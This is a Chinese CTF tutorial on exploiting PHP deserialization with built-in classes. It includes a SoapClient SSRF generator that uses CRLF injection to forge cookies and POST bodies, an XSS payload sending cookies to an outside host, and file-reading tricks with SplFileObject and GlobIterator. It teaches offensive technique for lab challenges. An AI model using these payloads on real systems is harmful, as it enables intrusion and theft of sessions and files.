

# 🧬 PHP 原生内置类反序列化利用深度全矩阵（无自定义类破局）

> **终极死局**：CTF 题目源码中**一个自定义类都没有给出**，代码只有孤零零的几行：
> `unserialize($_GET['payload']);` 或者 `$a = unserialize(...); echo $a;`。
> 无法手写 POP 链，怎么办？
> **破局之道**：PHP 解释器在编译运行阶段默认内置了数百个**原生系统类（Native Internal Classes）**，这些类自带了 `__toString()`、`__call()` 等魔术方法，构成了强大的原生武器库！

---

## 0. 基础前置认知与小白扫盲：没有用户代码时怎么挖 POP 链？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 传统 POP 链的困境
* 传统的反序列化攻击，黑客必须在目标网站自己的源码里，找到有漏洞的类（比如自定义了 `__destruct()` 或 `__toString()` 的类）。
* 如果目标网站代码写得极其精简，根本没有几行自定义类，或者用了全套安全框架，黑客该怎么办？

---

### 2. PHP 内置原生类（系统自带的军火库）
* PHP 语言内核自带了几百个开箱即用的内置类，只要安装了 PHP 就必定存在！
* **四大经典原生神器**：
  * **`Error` / `Exception`**：自带 `__toString()` 魔术方法，能够把传入的参数原封不动打印在异常信息里，可以用来**在 XSS 过滤极为严格的环境下直接触发反射型/DOM 型 XSS**！
  * **`SoapClient`（SSRF 发射台）**：PHP 处理 SOAP 协议的原生客户端。当它被反序列化并在对象销毁时触发 `__call()`，它会**向指定的任意地址强行发起一个 HTTP POST 请求，并且允许自定义 User-Agent 注入 CRLF 换行符**！黑客无需任何外网，直接借原生类触发 SSRF 和内网渗透！
  * **`SimpleXMLElement`**：原生 XML 解析类，可以直接触发外部实体注入（XXE）读取文件！

---

## 一、PHP 内置原生类资产探测脚本

如何在任何靶机环境中一键提取所有带有魔术方法的原生类？

```php
<?php
// 本地探测原生类武器库脚本
$classes = get_declared_classes();
foreach ($classes as $class) {
    $methods = get_class_methods($class);
    foreach ($methods as $method) {
        if (in_array($method, ['__destruct', '__toString', '__wakeup', '__call', '__invoke'])) {
            echo "{$class} -> {$method}\n";
        }
    }
}
```

---

## 二、武器一：SoapClient —— 内网 SSRF 与 CRLF 走私大杀器

`SoapClient` 是 PHP 处理 SOAP Web 服务的原生客户端扩展类（需开启 `php-soap`）。

### 1. 触发机理：`__call()` 触发 HTTP 请求
当对一个 `SoapClient` 实例对象**调用任何不存在的方法**时，会自动触发其内部的 `__call()` 魔术方法。`__call()` 会根据初始化配置向目标服务器发起一个 HTTP/HTTPS POST 请求！



---

### 2. 核心参数逐项剖析表
`SoapClient` 构造函数定义：`new SoapClient($wsdl, $options)`

| 参数名 / 选项键值 | 传入配置 | 底层解析与攻击机理 |
| :--- | :--- | :--- |
| **`$wsdl`** | `null` | 必须为 `null`！表示使用非 WSDL 模式，直接允许我们自定义请求目标 URL。 |
| **`location`** | `'http://127.0.0.1/admin/flag.php'` | **SSRF 目标地址**。支持携带私有端口（如打内网 Redis `127.0.0.1:6379` 或 FastCGI）。 |
| **`uri`** | `'任意字符串'` | 在非 WSDL 模式下为必填命名空间参数，填任意值即可。 |
| **`user_agent`** | **CRLF 注入核心载荷** | **攻击灵魂**！`SoapClient` 允许自定义 User-Agent 头，且底层未对 `\r\n` 换行符做过滤！我们可以在此注入 `%0d%0a`，**直接走私伪造出全新的 Cookie、Content-Type、甚至完整的 POST Body！** |

---

### 3. 实战 EXP 生成脚本（走私 Cookie 与 POST 数据）

```php
<?php
// 生成利用 SoapClient 发起 SSRF 的序列化 Payload
$target_url = "http://127.0.0.1/admin.php";

// 构造 CRLF 注入头部：伪造管理员 Cookie 与 POST 数据
$headers = "Hacker-Agent\r\n" .
           "Cookie: PHPSESSID=admin_session_token_12345\r\n" .
           "Content-Type: application/x-www-form-urlencoded\r\n" .
           "Content-Length: 13\r\n\r\n" .
           "cmd=system_info";

$options = [
    'location'   => $target_url,
    'uri'        => 'ctf_exploit',
    'user_agent' => $headers
];

$soap = new SoapClient(null, $options);
$payload = serialize($soap);
echo urlencode($payload);
```

#### 🔍 最终发往内网的原始 HTTP 报文剖析：
```http
POST /admin.php HTTP/1.1
Host: 127.0.0.1
Connection: Keep-Alive
User-Agent: Hacker-Agent
Cookie: PHPSESSID=admin_session_token_12345
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

cmd=system_info
SOAPAction: "ctf_exploit#nonExistMethod"
...
```
* **效果**：通过 `user_agent` 内部的 `\r\n\r\n` 成功将 HTTP 报文截断为两段，把 `cmd=system_info` 强行变成由内网服务器发起的合规 POST 请求，完美击穿内网鉴权！

---

## 三、武器二：Error / Exception —— 触发 XSS 与哈希绕过

PHP 7+ 引入了 `Error` 类（所有运行时错误的基类），它与 `Exception` 均内置了 `__toString()` 方法。

### 1. 反射型 XSS 利用（利用 `echo $obj`）
* **原理**：`Error` 的构造函数 `$err = new Error($message, $code)`，当对象被转换为字符串时，`__toString()` 会将 `$message` 原样格式化输出。
* **EXP 构造**：
  ```php
  <?php
  $xss = new Error("<script>alert('XSS_POC');location.href='http://vps/?c='+document.cookie;</script>");
  echo urlencode(serialize($xss));
  ```
* **应用场景**：如果反序列化后存在任何字符串拼接或输出（`echo`、`print`），直接弹出 XSS 获取管理员 Cookie！

---

### 2. 强类型 MD5 / SHA1 哈希碰撞绕过
在 CTF 中常遇到如下严苛强等于校验：
```php
if ($a !== $b && md5($a) === md5($b)) {
    echo $flag;
}
```
两个不同的对象肯定不恒等（`$a !== $b` 为 True）。如果 `$a` 和 `$b` 是不同实例，如何让它们的 `md5()` 完全相等？
* **底层机制**：`md5()` 接收对象参数时，会先强制调用其 `__toString()` 转换为字符串。
* `Error::__toString()` 打印的文本由 3 部分构成：`Message`、`File` 和 `Line`（行号）。
* **绝妙构造**：只要我们在**同一行代码**中实例化两个 `Error` 对象，让它们的报错信息相同，但传递不同的错误码（Code），即可实现：
  * 对象属性不同 $\rightarrow$ `$a !== $b` 成立；
  * `__toString()` 结果完全相同 $\rightarrow$ `md5($a) === md5($b)` 成立！

```php
<?php
// 必须写在同一行！
$a = new Error("payload", 1); $b = new Error("payload", 2);
echo "a !== b: " . ($a !== $b ? "True" : "False") . "\n";
echo "md5 equal: " . (md5($a) === md5($b) ? "True" : "False") . "\n";
```

---

## 四、武器三：DirectoryIterator / GlobIterator —— 盲读目录结构

当系统禁用了 `scandir()`、`glob()`、`system()`，如何列出当前目录下的所有文件？

* **内置魔术方法**：`DirectoryIterator` 实现了 `__toString()`，当被当作字符串处理时，会返回它指向的当前文件名！
* **`GlobIterator`**：原生支持 `glob://` 伪协议匹配模式。

### 🔍 实战利用 Payload：
```php
<?php
// 匹配根目录下以 flag 开头的文件
$dir = new GlobIterator("/flag*");
// 当执行 echo $dir 时，自动触发 __toString() 输出匹配到的文件名！
echo $dir; // 输出: /flag_is_here_666.txt
```

---

## 五、武器四：SplFileObject —— 任意文件首行读取

`SplFileObject` 继承自 `SplFileInfo`，其内部实现了 `__toString()`：
```php
<?php
// 实例化目标文件
$file = new SplFileObject("/flag");
// 当执行 echo $file 时，直接读取并回显该文件的第一行内容！
echo $file; // 输出: flag{welcome_to_native_classes}
```
* **配合伪协议**：如果目标文件有多行，也可以通过 `php://filter/read=convert.base64-encode/resource=/flag` 结合其他上下文完整读取。

---

## 🔗 相关双向链接
- 上级模块：[[07-反序列化漏洞深度专精]]
- 前置基础：[[PHP反序列化字符逃逸：增多与减少]]
- 下级模块：[[Phar反序列化：文件格式解析与触发隐藏面]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
